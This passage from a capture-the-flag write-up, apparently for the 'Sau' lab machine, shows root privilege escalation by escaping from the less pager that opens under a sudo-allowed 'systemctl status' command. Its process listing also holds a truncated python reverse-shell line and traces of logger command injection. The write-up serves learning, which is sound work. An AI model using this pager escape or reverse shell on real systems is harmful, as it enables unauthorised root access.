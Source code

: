 ```

```

### Exploit Less

If the screen is not big enough to handle the output of `systemctl`, it gets passed to `less`. In fact, because I’m in a weird TTY, when I run with `sudo`, this happens:

```

puma@sau:~$ sudo /usr/bin/systemctl status trail.service 
WARNING: terminal is not fully functional
-  (press RETURN)● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>
     Active: active (running) since Thu 2024-01-04 13:33:54 UTC; 2h 25min ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 891 (python3)
      Tasks: 12 (limit: 4662)
     Memory: 26.7M
     CGroup: /system.slice/trail.service
             ├─ 891 /usr/bin/python3 server.py
             ├─1234 /bin/sh -c logger -p auth.info -t "maltrail[891]" "Failed p>
             ├─1235 /bin/sh -c logger -p auth.info -t "maltrail[891]" "Failed p>
             ├─1244 sh
             ├─1245 python3 -c import socket,os,pty;s=socket.socket(socket.AF_I>
             ├─1246 /bin/sh
             ├─1248 script /dev/null -c bash
             ├─1249 bash
             ├─1281 sudo /usr/bin/systemctl status trail.service
             ├─1282 /usr/bin/systemctl status trail.service
             └─1284 pager

Jan 04 13:33:54 sau systemd[1]: Started Maltrail. Server of malicious traffic d>
Jan 04 15:58:22 sau sudo[1270]:     puma : TTY=pts/1 ; PWD=/home/puma ; USER=ro>

```

At the bottom of the terminal there is text and it’s actually hanging. If I enter `!sh` in `less`, that will run `sh`, and drop to a shell:

![image-20240104110236282](/img/image-20240104110236282.png)

And I can grab the flag:

```

# cd /root
# cat root.txt
ded99f75************************

```